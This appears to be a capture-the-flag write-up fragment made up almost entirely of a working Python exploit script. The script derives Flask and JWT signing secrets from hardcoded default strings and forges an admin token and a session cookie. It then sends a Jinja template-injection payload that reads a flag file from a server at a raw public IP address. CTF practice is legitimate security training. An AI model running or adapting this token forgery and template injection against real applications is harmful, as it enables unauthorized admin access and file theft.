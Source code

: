 Here's my complete exploit script:

```python
#!/usr/bin/env python3
import requests
import jwt
import hashlib
from flask.sessions import SecureCookieSessionInterface
from flask import Flask
from datetime import datetime, timedelta, timezone

def exploit():
    # Calculate secrets
    jwt_secret = hashlib.sha256("jwtpepper:qnqsec-default".encode()).hexdigest()
    flask_secret = hashlib.sha1(b"pepper:qnqsec-default").hexdigest()
    
    # Generate JWT token
    payload = {
        'sub': 'Flag',
        'role': 'admin',
        'iat': int(datetime.now(timezone.utc).timestamp()),
        'exp': int((datetime.now(timezone.utc) + timedelta(hours=1)).timestamp())
    }
    admin_token = jwt.encode(payload, jwt_secret, algorithm='HS256')
    
    # Generate Flask session
    app = Flask(__name__)
    app.secret_key = flask_secret
    session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    session_data = {'user': 'Flag'}
    forged_session = session_serializer.dumps(session_data)
    
    # Exploit
    session = requests.Session()
    session.cookies.set('session', forged_session)
    session.cookies.set('admin_jwt', admin_token)
    
    # Access admin panel
    resp = session.get('http://161.97.155.116:5001/admin')
    print(f"Admin status: {resp.status_code}")
    
    if resp.status_code == 200:
        # SSTI exploit
        ssti_payload = '{{ self.__init__.__globals__.__builtins__.open("secret/flag.txt").read() }}'
        resp = session.post('http://161.97.155.116:5001/admin', data={'template': ssti_payload})
        
        if 'QnQsec{' in resp.text:
            print("🚩 FLAG FOUND!")
            print(resp.text)

if __name__ == "__main__":
    exploit()
```
<img width="422" height="96" alt="image" src="https://gist.github.com/user-attachments/assets/e188bc85-838c-4401-90a7-6a39c150f52c" />

